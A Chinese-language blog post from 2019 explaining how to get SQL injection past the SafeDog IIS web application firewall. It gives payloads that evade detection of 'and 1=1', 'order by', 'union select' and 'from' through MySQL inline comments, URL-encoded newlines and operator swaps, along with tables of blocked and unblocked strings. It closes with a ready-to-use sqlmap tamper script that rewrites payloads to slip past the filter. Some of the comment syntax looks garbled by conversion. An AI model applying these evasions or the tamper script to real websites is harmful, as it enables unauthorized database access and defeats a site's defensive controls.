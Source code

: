 ```yaml
---
permalink: 2019/10/08/bypass-safedog
tags:
  - 安全狗
layout: post
date: '2019-10-08 08:00:00'
categories:
  - web安全
  - bypass方法
home_cover: ''
title: bypass安全狗
---
```


## 安全狗防护基本方法


本次使用的安全狗版本为：V4.0 27338 IIS 正式版，是官网截止2019年10月8号的最新版本，本篇文章主要介绍sql注入突破。


### sql注入防护


在安全狗的默认防护规则中有一系列关于sql注入的防护


![20191008153228.png](../post_images/37ef36ecfb887c738e84cb3ae83d38e3.png)


当初发这些规则时就会被拦截，例如：


![20191008153332.png](../post_images/90004e8003f8bc8d52f1bfd925cabc69.png)


## bypass Sql注入防护


### 绕过总结（图片来自网上）


![20191008154146.png](../post_images/e52249e407e1ffbee5860f507e6a9419.png)


### 绕过 `and 1=1`

1. 直接使用`and -1=-1`绕过

	![20191008213720.png](../post_images/0521454d28fb56274e1dec78ffb410d1.png)

2. 使用注释绕过，50000表示mysql的大版本号为5.0版本

或者：

	![20191008213555.png](../post_images/9ec06eb269700f42aa498a0878845935.png)


	![20191008213654.png](../post_images/3ddff93d64d366f11527ad97e00dca1d.png)

3. 使用减法或加法绕过，注意加号需要进行url编码

	![20191008223515.png](../post_images/a14ededa09ce095cc1ea526b827f2258.png)


	![20191008223608.png](../post_images/1958bc609497f58fb7ab822b8d53b4f2.png)

4. 使用`&&`代替and，使用`true`代替`1=1`

	![20191008225210.png](../post_images/d58da30a0c2fb68b39bef68777e56210.png)

5. 其它绕过说明只有and和`1=1`在一起时安全狗才会拦截,那就需要干扰安全狗将and和`1=1`使用一系列注释和特殊字符分开，例如：_**`/!and////!/!1=1/`**_

	| payload | 结果  |
	| ------- | --- |
	| and     | 未拦截 |
	| 1=1     | 未拦截 |
	| and 1=1 | 拦截  |


	![20191009103349.png](../post_images/8a55ffca89963bb3ba37d2629bca83be.png)


### 绕过`order by`


| payload  | 结果  |
| -------- | --- |
| order    | 未拦截 |
| by       | 未拦截 |
| order by | 拦截  |


说明只有order和by在一起时安全狗才会拦截。

1. 使用`.`绕过

	![20191009151740.png](../post_images/d7e70d38f2afe0f482a9eeb76028fac9.png)

2. 使用`%23%0a`绕过

	![20191009153514.png](../post_images/a38e9d3d942f357416050fa443c25085.png)

3. fuzz出来的其它绕过方式,有很多，这里只举其中的5中方式
	- _**`/!order /!///by/1,2,3,4`**_
	- _**`/!order //%//by/1,2,3,4`**_
	- _**`/!order ////by/1,2,3,4`**_
	- _**`/!order /!/////by/1,2,3,4`**_
	- _**`/!order /!//////by/1,2,3,4`**_

### 绕过`union select`


| payload      | 结果  |
| ------------ | --- |
| union        | 未拦截 |
| select       | 未拦截 |
| union select | 拦截  |


说明只有union和select在一起时安全狗才会拦截。


> 安全狗对`union select`的过滤比较严，我只找到了一种绕过方法。

1. 使用`--+aaaaaa%0a`绕过

	![20191010151154.png](../post_images/6393b007de58dfdda4960db9ccc28a26.png)


### 绕过`select from`


| payload     | 结果  |
| ----------- | --- |
| select      | 未拦截 |
| from        | 未拦截 |
| select from | 未拦截 |
| select 1    | 未拦截 |
| from 1      | 拦截  |
| from1       | 未拦截 |


说明from后面有空格时会拦截。

1. 使用`-+`即可绕过（仅适用于from后面跟数字的情况）：

	![20191010113333.png](../post_images/1afcc430a32bc9623315b0f784d7b387.png)

2. 使用_`/!99999c//!99999c/FROM`_绕过

	![20191010164125.png](../post_images/ce0a836cc2965cf85ac649ec00291d8a.png)


### 绕过`database()`


使用注释即可绕过：



![20191010153612.png](../post_images/9b5faab21adc00ab967207fa9c095769.png)


## sqlmap tamper


最后赠送过狗tamper


```python
_#!/usr/bin/env python

from lib.core.enums import PRIORITY
from lib.core.settings import UNICODEENCODING_
**priority** = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, kwargs):
    if payload:
        payload=payload.replace(" ","/_!_/")
        payload=payload.replace("=","/_!_/=/_!_/")
        # payload=payload.replace('1=1','true')
        payload=payload.replace("AND","/_!AND/_//")
        payload=payload.replace("OR","/_!OR/_//")
        payload=payload.replace("UNION SELECT","UNION--+aaaaaa%0aSELECT")
        payload=payload.replace("#","/_!_/#")
        payload=payload.replace("USER()","USER/_!()_/")
        payload=payload.replace("DATABASE()","DATABASE/_!()_/")
        payload=payload.replace("--","/_!_/--")
        payload=payload.replace("FROM","/_!99999c_//_!99999c_/FROM")
        payload=payload.replace("CONCAT","/_!12345CONCAT_/")
        payload=payload.replace("CAST(","/_!12345CAST(_/")
        payload=payload.replace("CASE","/_!12345CASE_/")
    return payload

```


## 参考文章

- [Fuzzing---Sql injection bypass with BurpSuite](https://www.key1.top/index.php/archives/255/)
- [安全狗bypass注入](https://www.cnblogs.com/R4v3n/articles/9082419.html)
- [bypass安全狗绕过方法](https://www.yuag.org/2018/11/29/bypass%E5%AE%89%E5%85%A8%E7%8B%97%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95/)
- [bypass安全狗](http://flag0.com/2018/04/20/bypass%E5%AE%89%E5%85%A8%E7%8B%97/)
- [Fuzzing With FuzzDB to Web Attack](https://payloads.online/archivers/2018-02-05/1)
- [Fuzz安全狗注入绕过](https://blog.csdn.net/nzjdsds/article/details/77367899)
